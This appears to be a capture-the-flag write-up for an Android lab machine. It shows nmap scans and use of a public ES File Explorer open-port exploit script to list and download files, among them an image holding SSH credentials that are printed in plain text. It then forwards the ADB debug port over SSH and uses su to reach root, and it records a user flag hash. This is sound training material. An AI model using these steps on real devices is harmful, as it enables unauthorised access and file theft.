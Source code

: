 ### Scan
```
./nmapAutomator.sh 10.10.10.247 All

Running all scans on 10.10.10.247

Host is likely running Linux
                                                                                                                                                                                             
                                                                                                                                                                                             
---------------------Starting Port Scan-----------------------                                                                                                                               
                                                                                                                                                                                             


PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1



---------------------Starting Script Scan-----------------------
                                                                                                                                                                                             


PORT     STATE SERVICE VERSION
2222/tcp open  ssh     (protocol 2.0)
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio




---------------------Starting Full Scan------------------------
                                                                                                                                                                                             


PORT      STATE SERVICE
2222/tcp  open  EtherNetIP-1
45567/tcp open  unknown
59777/tcp open  unknown



Making a script scan on extra ports: 45567, 59777
                                                                                                                                                                                             


PORT      STATE SERVICE VERSION
45567/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:11 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Tue, 08 Oct 2024 21:43:11 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Tue, 08 Oct 2024 21:43:16 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:16 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```
### Enum
nmap thinks that 59777 is a minecraft server, but having done work with Bukkit in the past, I doubt that's the case. I did research to find out more about the port, and stumbled on ES File Explorer. I'm assuming this is our poe.
Theres a git repo https://github.com/fs0c131y/ESFileExplorerOpenPortVuln.git
we can peruse with `python3 poc.py --cmd list[Files,Pics,etc.] --host 10.10.10.247`
![[Screenshot 2024-10-08 at 7.22.00 PM.png]]
creds jpg. grab it `python3 poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247`
![[Screenshot 2024-10-08 at 7.23.50 PM.png]]
creds ;??![[Screenshot 2024-10-08 at 7.24.22 PM.png]] `kristi:Kr1sT!5h@Rp3xPl0r3!`
ssh in `ssh kristi@10.10.10.247 -p 2222`
dir structure ![[Screenshot 2024-10-08 at 7.27.01 PM.png]]
Going back to where photo was in `storage/emulated/0` we find user
USER: f32017174c7c7e8f50c6da52891ae250

### Priv Esc
we can see what ports are active with `netstat -tnlp`
we see 5555, which didnt show in our scans. and through research, this is a port for android debugging.
we can reconnect with the port forwarded to our machine using SSH 
`ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222`
![[Screenshot 2024-10-08 at 7.47.55 PM.png]]
Then, on our machine again, `apt install adb` will give us the tools to interact with the software
`adb devices`
connect to the forwarded port `adb connect localhost:5555`
Drop a shell there`adb -s localhost:5555 shell`
We can abuse privileges by using `su` and `find / name root.txt 2>/dev/null` to locate the flag.
![[Screenshot 2024-10-08 at 7.48.13 PM.png]]